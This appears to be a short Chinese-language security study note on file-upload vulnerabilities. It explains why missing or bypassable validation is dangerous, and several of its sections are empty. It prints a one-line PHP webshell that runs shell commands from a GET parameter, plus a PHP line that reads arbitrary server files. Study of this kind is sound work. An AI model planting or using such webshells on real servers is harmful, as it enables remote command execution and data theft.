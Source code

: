 ```yaml
---
description: 上传文件的行为本身就是有隐患的，若配置错误、处理不当，足以造成损害
---
```


# ✔️ 文件上传 - File upload

## 漏洞原理

* 用户上传的文件存储到服务器的文件系统之前，不会对其执行任何验证
* 或者验证存在固有缺陷或者容易被绕过
* 或者强大的验证措施也可能在构成网站的主机和网站的文件系统中不一致地应用，从而导致可被利用的差异

## 存在漏洞的特征

### 利用不受限制的文件

* [x] 允许上传服务器端脚本文件（PHP / Java / Python）
* [x] 可将这些脚本文件配置为代码执行

### 利用上传验证缺陷





## 常见攻击方式

### 1. 上传webshell

```php
// 通用的Webshell
<?php echo system($_GET['command']); ?>
```



### 2. 后续攻击

```php
// 从服务器的文件系统读取任意文件
<?php echo file_get_contents('/path/to/target/file'); ?>
```

## 绕过上传验证措施


